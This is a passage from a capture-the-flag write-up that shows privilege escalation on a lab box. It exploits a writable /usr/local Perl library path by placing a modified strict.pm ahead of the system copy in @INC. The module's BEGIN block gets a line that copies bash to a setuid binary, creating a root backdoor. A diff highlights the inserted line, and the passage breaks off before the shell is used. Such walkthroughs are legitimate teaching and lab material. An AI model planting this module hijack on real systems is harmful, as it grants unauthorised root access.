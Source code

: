     
    
    jkr@writeup:/usr/local/share$ perl -e 'print join("\n",@INC)' | while read dir; do ls -ld $dir; done
    drwxr-xr-x 4 root root 4096 Apr 19 04:21 /etc/perl
    ls: cannot access '/usr/local/lib/x86_64-linux-gnu/perl/5.24.1': No such file or directory
    ls: cannot access '/usr/local/share/perl/5.24.1': No such file or directory
    drwxr-xr-x 11 root root 4096 Apr 19 04:21 /usr/lib/x86_64-linux-gnu/perl5/5.24
    drwxr-xr-x 16 root root 4096 Apr 19 04:21 /usr/share/perl5
    lrwxrwxrwx 1 root root 6 Nov 29  2018 /usr/lib/x86_64-linux-gnu/perl/5.24 -> 5.24.1
    lrwxrwxrwx 1 root root 6 Nov 29  2018 /usr/share/perl/5.24 -> 5.24.1
    

And, those two are in `/usr/local` where staff has write. I’ll create
`/usr/local/lib/x86_64-linux-gnu/perl/5.24.1`, and copy one of the modules
from above into it:

    
    
    jkr@writeup:~$ mkdir -p /usr/local/lib/x86_64-linux-gnu/perl/5.24.1
    jkr@writeup:~$ cp /usr/share/perl/5.24/strict.pm /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/
    

Now I’ll edit the module to add some code just inside the `BEGIN`:

    
    
    package strict;
    
    $strict::VERSION = "1.11";
    
    my ( %bitmask, %explicit_bitmask );
    
    BEGIN {
        # Verify that we're called correctly so that strictures will work.
        # Can't use Carp, since Carp uses us!
        # see also warnings.pm.
        system "cp /bin/bash /bin/0xdf; chmod u+s /bin/0xdf";
        die sprintf "Incorrect use of pragma '%s' at %s line %d.\n", __PACKAGE__, +(caller)[1,2]
            if __FILE__ !~ ( '(?x) \b     '.__PACKAGE__.'  \.pmc? \z' )
            && __FILE__ =~ ( '(?x) \b (?i:'.__PACKAGE__.') \.pmc? \z' );
    ...[snip]...
    

The only difference is my additional line:

    
    
    jkr@writeup:~$ diff /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/strict.pm /usr/share/perl/5.24/strict.pm
    11d10
    <     system "cp /bin/bash /bin/0xdf; chmod u+s /bin/0xdf";
    

Now connect over SSH or wait for the minute for someone else to, and the shell
exists:

